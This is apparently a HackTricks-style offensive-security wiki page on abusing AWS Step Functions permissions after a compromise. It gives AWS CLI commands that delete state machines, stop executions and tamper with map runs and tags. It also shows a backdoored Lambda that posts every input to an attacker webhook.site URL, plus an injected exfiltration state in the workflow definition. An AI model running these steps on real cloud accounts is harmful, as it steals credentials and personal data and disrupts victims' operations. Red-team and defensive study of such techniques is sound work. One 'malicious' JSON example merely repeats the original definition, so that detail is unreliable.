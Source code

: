 # AWS - Step Functions Post Exploitation

{{#include ../../../../banners/hacktricks-training.md}}

## Step Functions

For more information about this AWS service, check:

{{#ref}}
../../aws-services/aws-stepfunctions-enum.md
{{#endref}}

### `states:RevealSecrets`

This permission allows to **reveal secret data inside an execution**. For it, it's needed to set Inspection level to TRACE and the revealSecrets parameter to true.

<figure><img src="../../../images/image (348).png" alt=""><figcaption></figcaption></figure>

### `states:DeleteStateMachine`, `states:DeleteStateMachineVersion`, `states:DeleteStateMachineAlias`

An attacker with these permissions would be able to permanently delete state machines, their versions, and aliases. This can disrupt critical workflows, result in data loss, and require significant time to recover and restore the affected state machines. In addition, it would allow an attacker to cover the tracks used, disrupt forensic investigations, and potentially cripple operations by removing essential automation processes and state configurations.

> [!NOTE]
>
> - Deleting a state machine you also delete all its associated versions and aliases.
> - Deleting a state machine alias you do not delete the state machine versions referecing this alias.
> - It is not possible to delete a state machine version currently referenced by one o more aliases.

```bash
# Delete state machine
aws stepfunctions delete-state-machine --state-machine-arn <value>
# Delete state machine version
aws stepfunctions delete-state-machine-version --state-machine-version-arn <value>
# Delete state machine alias
aws stepfunctions delete-state-machine-alias --state-machine-alias-arn <value>
```

- **Potential Impact**: Disruption of critical workflows, data loss, and operational downtime.

### `states:UpdateMapRun`

An attacker with this permission would be able to manipulate the Map Run failure configuration and parallel setting, being able to increase or decrease the maximum number of child workflow executions allowed, affecting directly and performance of the service. In addition, an attacker could tamper with the tolerated failure percentage and count, being able to decrease this value to 0 so every time an item fails, the whole map run would fail, affecting directly to the state machine execution and potentially disrupting critical workflows.

```bash
aws stepfunctions update-map-run --map-run-arn <value> [--max-concurrency <value>] [--tolerated-failure-percentage <value>] [--tolerated-failure-count <value>]
```

- **Potential Impact**: Performance degradation, and disruption of critical workflows.

### `states:StopExecution`

An attacker with this permission could be able to stop the execution of any state machine, disrupting ongoing workflows and processes. This could lead to incomplete transactions, halted business operations, and potential data corruption.

> [!WARNING]
> This action is not supported by **express state machines**.

```bash
aws stepfunctions stop-execution --execution-arn <value> [--error <value>] [--cause <value>]
```

- **Potential Impact**: Disruption of ongoing workflows, operational downtime, and potential data corruption.

### `states:TagResource`, `states:UntagResource`

An attacker could add, modify, or remove tags from Step Functions resources, disrupting your organization's cost allocation, resource tracking, and access control policies based on tags.

```bash
aws stepfunctions tag-resource --resource-arn <value> --tags Key=<key>,Value=<value>
aws stepfunctions untag-resource --resource-arn <value> --tag-keys <key>
```

**Potential Impact**: Disruption of cost allocation, resource tracking, and tag-based access control policies.

---

### `states:UpdateStateMachine`, `lambda:UpdateFunctionCode`

An attacker who compromises a user or role with the following permissions:

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "AllowUpdateStateMachine",
      "Effect": "Allow",
      "Action": "states:UpdateStateMachine",
      "Resource": "*"
    },
    {
      "Sid": "AllowUpdateFunctionCode",
      "Effect": "Allow",
      "Action": "lambda:UpdateFunctionCode",
      "Resource": "*"
    }
  ]
}
```

...can conduct a **high-impact and stealthy post-exploitation attack** by combining Lambda backdooring with Step Function logic manipulation.

This scenario assumes that the victim uses **AWS Step Functions to orchestrate workflows that process sensitive input**, such as credentials, tokens, or PII.

Example victim invocation:

```bash
aws stepfunctions start-execution \
  --state-machine-arn arn:aws:states:us-east-1:<victim-account-id>:stateMachine:LegitStateMachine \
  --input '{"email": "victim@example.com", "password": "hunter2"}' --profile victim
```

If the Step Function is configured to invoke a Lambda like `LegitBusinessLogic`, the attacker can proceed with **two stealthy attack variants**:

---

####  Updated the lambda function

The attacker modifies the code of the Lambda function already used by the Step Function (`LegitBusinessLogic`) to silently exfiltrate input data.

```python
# send_to_attacker.py
import requests

def lambda_handler(event, context):
    requests.post("https://webhook.site/<attacker-id>/exfil", json=event)
    return {"status": "exfiltrated"}
```

```bash
zip function.zip send_to_attacker.py

aws lambda update-function-code \
  --function-name LegitBusinessLogic \
  --zip-file fileb://function.zip -profile attacker
```

---

#### Add a Malicious State to the Step Function

Alternatively, the attacker can inject an **exfiltration state** at the beginning of the workflow by updating the Step Function definition.

```malicious_state_definition.json
{
  "Comment": "Backdoored for Exfiltration",
  "StartAt": "OriginalState",
  "States": {
    "OriginalState": {
      "Type": "Task",
      "Resource": "arn:aws:lambda:us-east-1:<victim-id>:function:LegitBusinessLogic",
      "End": true
    }
  }
}

```

```bash
aws stepfunctions update-state-machine \
  --state-machine-arn arn:aws:states:us-east-1:<victim-id>:stateMachine:LegitStateMachine \
  --definition file://malicious_state_definition.json --profile attacker
```

The attacker can even more stealthy to update the state definition to something like this 
{
  "Comment": "Backdoored for Exfiltration",
  "StartAt": "ExfiltrateSecrets",
  "States": {
    "ExfiltrateSecrets": {
      "Type": "Task",
      "Resource": "arn:aws:lambda:us-east-1:victim-id:function:SendToAttacker",
      "InputPath": "$",
      "ResultPath": "$.exfil",
      "Next": "OriginalState"
    },
    "OriginalState": {
      "Type": "Task",
      "Resource": "arn:aws:lambda:us-east-1:victim-id:function:LegitBusinessLogic",
      "End": true
    }
  }  
}
 where the victim won't realize the different 

---

### Victim Setup (Context for Exploit)

- A Step Function (`LegitStateMachine`) is used to process sensitive user input.
- It calls one or more Lambda functions such as `LegitBusinessLogic`.

---

**Potential Impact**:  
- Silent exfiltration of sensitive data including secrets, credentials, API keys, and PII.
- No visible errors or failures in workflow execution.
- Difficult to detect without auditing Lambda code or execution traces.
- Enables long-term persistence if backdoor remains in code or ASL logic.


{{#include ../../../../banners/hacktricks-training.md}}




